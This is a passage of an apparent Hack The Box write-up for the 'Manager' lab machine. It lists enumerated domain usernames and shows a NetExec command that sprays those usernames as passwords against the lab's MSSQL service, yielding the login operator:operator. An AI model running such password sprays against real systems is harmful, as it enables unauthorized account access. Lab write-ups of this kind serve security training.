 Removing extra entries form usernames.txt we deduce it to this.

```
administrator
guest
krbtgt
SQLServer2005SQLBrowserUser$DC01
zhong
cheng
ryan
raven
johndue
jinWoo
chinHae
operator
```

We have the usernames list, but we do not have the passwords.

### MSSQL Enumeration

With the gathered usernames list I tried the password spray with the usernames.txt only to the mssql service running on port 1433.

```bash
nxc mssql manager.htb -u usernames.txt -p usernames.txt --no-bruteforce --continue-on-success
```

![image.png](/assets/images/Manager_HTB/image%2012.png)

We got a hit as operator:operator.

So we can authenticate as operator with mssql service.

## Shell as Raven

Connecting to the mssql using impacket-mssqlclient.
